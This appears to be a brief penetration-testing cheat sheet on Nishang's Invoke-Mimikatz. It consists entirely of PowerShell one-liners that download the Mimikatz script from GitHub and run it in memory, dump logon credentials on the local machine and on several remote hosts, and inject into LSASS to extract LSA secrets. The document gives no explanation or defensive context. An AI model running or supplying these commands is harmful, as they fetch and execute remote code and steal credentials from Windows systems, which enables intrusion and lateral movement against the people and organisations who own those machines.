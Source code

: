 # 03 - Nishang

## 3.1 - Invoke-Mimikatz

### 3.1.1 - LogonPasswords

```
C:\> powershell.exe -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -DumpCreds -Computername <IP_1>,<IP_2>,<IP_n>
```

### 3.1.2 - LSASS Injection

`PS C:\> Invoke-Mimikatz -Command '"privilege::debug" "lsadump::lsa /inject"' -Computer <IP>`